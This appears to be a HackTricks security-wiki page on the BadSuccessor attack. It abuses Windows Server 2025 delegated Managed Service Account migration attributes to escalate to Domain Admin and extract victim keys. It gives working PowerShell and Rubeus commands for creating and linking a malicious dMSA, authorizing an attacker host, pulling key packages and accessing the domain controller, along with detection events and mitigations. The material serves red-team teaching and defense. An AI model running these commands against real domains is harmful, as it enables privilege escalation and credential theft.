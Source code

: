# BadSuccessor: Privilege Escalation via Delegated MSA Migration Abuse

{{#include ../../banners/hacktricks-training.md}}

## Overview

Delegated Managed Service Accounts (dMSA) are a new AD principal type introduced with Windows Server 2025 to enable “migration” from a legacy service account to a managed machine-bound account. The migration flow is exposed through cmdlets such as `Start-ADServiceAccountMigration` and `Complete-ADServiceAccountMigration` and hinges on attributes of the dMSA object:

- `msDS-ManagedAccountPrecededByLink` – DN link to the superseded (old) account.
- `msDS-DelegatedMSAState` – migration state (1 = started, 2 = completed, 3 = standalone dMSA).

BadSuccessor is an abuse primitive where an attacker who can create or modify a dMSA sets just those two attributes so the KDC/LSASS treat the dMSA as the successor of any chosen account. Authenticating as the dMSA then yields the PAC/SIDs of the linked victim (e.g., Domain Admin). This technique was publicly detailed by Akamai on May 21, 2025; as of August 2025 there is no official patch, so prevention relies on hardening OU permissions and monitoring.

### Environment prerequisites (important)

- At least one Domain Controller must run Windows Server 2025 (schema and KDC logic for dMSA). Domains not using dMSA are still affected once a 2025 DC exists.
- dMSA client logons can be gated by the policy “Enable delegated Managed Service Account logons,” but this policy is not required for the KDC-side behavior abused here.

### Attack prerequisites

An identity able to create objects or write attributes under some Organizational Unit (OU):

- Create Child → `msDS-DelegatedManagedServiceAccount` (or Create All Child Objects), and/or
- Write property on `msDS-ManagedAccountPrecededByLink` and `msDS-DelegatedMSAState` on an existing dMSA.

Network access to LDAP and Kerberos from any domain-joined host is sufficient.

## Enumerating Vulnerable OUs

Akamai published a helper that inspects OU DACLs and lists principals that can create dMSAs (high signal for BadSuccessor):

```powershell
# Requires only domain read permissions
.\nGet-BadSuccessorOUPermissions.ps1 -Domain contoso.local
```

Internally it enumerates all `organizationalUnit` objects and looks for ACEs granting:

- `ADS_RIGHT_DS_CREATE_CHILD` (0x0001) for class `msDS-DelegatedManagedServiceAccount`
- Or generic “Create All Child Objects”

## Exploitation Steps

Once a writable OU is identified, two attribute writes simulate a “completed migration” for any target account:

```powershell
# 1) Create a new delegated MSA inside a writable OU
New-ADServiceAccount -Name attacker_dMSA \
                     -DNSHostName host.contoso.local \
                     -Path "OU=DelegatedOU,DC=contoso,DC=com" \
                     -OtherAttributes @{ 'msDS-DelegatedMSAState' = 3 }

# 2) Point the dMSA to the victim and mark migration as completed
Set-ADServiceAccount attacker_dMSA -Add @{
  msDS-ManagedAccountPrecededByLink = "CN=Administrator,CN=Users,DC=contoso,DC=com"
}
Set-ADServiceAccount attacker_dMSA -Replace @{ msDS-DelegatedMSAState = 2 }
```

Note on states: legitimate flows set `1` during Start‑Migration and `2` at Complete‑Migration; `3` is used for standalone/non‑migrated dMSAs.

### Making the dMSA usable (authorized computer)

Unlike gMSAs, dMSA secrets are DC‑held and machine‑bound. To use the dMSA, add a computer you control to `msDS-GroupMSAMembership` (aka PrincipalsAllowedToRetrieveManagedPassword):

```powershell
# Allow ATTACKERHOST$ to obtain the dMSA’s key package / authenticate as the dMSA
Set-ADServiceAccount -Identity attacker_dMSA \
  -PrincipalsAllowedToRetrieveManagedPassword "ATTACKERHOST$"
```

After replication, from ATTACKERHOST you can request the dMSA ticket and key package.

## Post‑Exploitation and Credential Theft

dMSA authentication returns a KERB-DMSA-KEY-PACKAGE that contains current keys and previous keys. When `msDS-ManagedAccountPrecededByLink` is set, the previous‑keys list includes keys of the linked victim (commonly an RC4 key equal to the victim’s NT hash if `msDS-SupportedEncryptionTypes` was default). This turns BadSuccessor into both privilege escalation and credential compromise.

Examples:

```powershell
# 1) From ATTACKERHOST (listed in msDS-GroupMSAMembership), get a machine TGT
#    e.g., run as SYSTEM and export the existing machine TGT with Rubeus dump/klist

# 2) Ask for the dMSA ticket and extract the key package (Rubeus v2.3.3+)
Rubeus.exe asktgs /dmsa /service:krbtgt/contoso.local \
  /targetuser:attacker_dMSA$ /ticket:BASE64_MACHINE_TGT /ptt /nowrap /opsec

# 3) Use the injected TGT to access DA resources
cmd.exe /c dir \\DC01\C$
```

Tip: tools like SharpSuccessor and NetExec’s module `badsuccessor` automate creation, linking, authorization, and ticket/key extraction end‑to‑end.

## Detection & Hunting

Enable object auditing on OUs and monitor for:

- 5137 (Directory Service) – Creation of `msDS-DelegatedManagedServiceAccount` objects.
- 5136 (Directory Service) – Modifications to `msDS-ManagedAccountPrecededByLink` and `msDS-DelegatedMSAState`.
- 4662 (Security) – Attribute‑level changes on the dMSA object
  - `schemaIdGuid` 2f5c138a-bd38-4016-88b4-0ec87cbb4919 → `msDS-DelegatedMSAState`
  - `schemaIdGuid` a0945b2b-57a2-43bd-b327-4d112a4e8bd1 → `msDS-ManagedAccountPrecededByLink`
- 2946 (Directory Service) – dMSA authentication including KERB‑DMSA‑KEY‑PACKAGE
  - Typically shows Caller SID S-1-5-7 and the DN of the dMSA.

Correlate: rapid sequence of 5137 → 5136/4662 on the same object → 2946, followed by 4624/4769 from unusual hosts. SIEM/XDR content from multiple vendors already ships detections for these patterns.

## Mitigation

- Apply least privilege on OUs. Remove Create‑Child for `msDS-DelegatedManagedServiceAccount` (or Create‑All‑Child‑Objects) from non‑Tier‑0 identities.
- Optionally add deny ACEs at OU scope to block writes to `msDS-ManagedAccountPrecededByLink` for Everyone/Authenticated Users while keeping legitimate admin flows.
- Monitor the events above and alert when non‑admin identities create or modify dMSAs, or when unexpected 2946 events occur.

## Automation and Tooling

- SharpSuccessor (C#)
- BadSuccessor.ps1 (PowerShell)
- NetExec module `badsuccessor` (Python)
- Rubeus (v2.3.3+) supports `/dmsa` to retrieve dMSA tickets and key packages.

## See also


{{#ref}}
acl-persistence-abuse/BadSuccessor.md
{{#endref}}


{{#ref}}
golden-dmsa-gmsa.md
{{#endref}}

## References

- [Akamai – BadSuccessor: Abusing dMSA to Escalate Privileges in Active Directory (May 21, 2025)](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- [Microsoft Learn – Attribute msDS-DelegatedMSAState / msDS-ManagedAccountPrecededByLink (Windows Server 2025 schema)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/c354638a-5e30-43e5-b7f0-9233d83fec8b)

{{#include ../../banners/hacktricks-training.md}}
